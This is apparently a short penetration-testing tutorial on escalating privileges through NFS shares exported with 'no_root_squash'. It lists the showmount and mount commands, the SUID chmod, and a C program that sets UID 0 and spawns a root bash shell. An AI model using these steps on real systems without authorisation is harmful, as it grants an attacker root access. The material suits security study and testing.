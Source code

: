 ```yaml
---
description: >-
  Network File Sharing Also can have vulnerabilities that might be used to
  escalate privileges if attacker has already root privileges on his machine
---
```


# NFS

When showing /etc/exports, we can find some configurations with

```
no_root_squash
```

which, instead of default change of user root to `nfsnobody`  and strip any file from operating with root privileges, will make us able to create a exec script with SUID bit and execute it on target system

Enumerate Shares

```sh
showmount -e <ip>
```

We can then mount our share

```sh
mount -o rw <ip>:/<folder or remote> <folder on attacker machine>
```

and set a SUID bit set file into the shared folder.&#x20;

```sh
chmod +s <file>
```



If doing a C executable:

```c
int main()
{
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

Compile as a static file

```sh
gcc -static -o <outName> <c file>
```

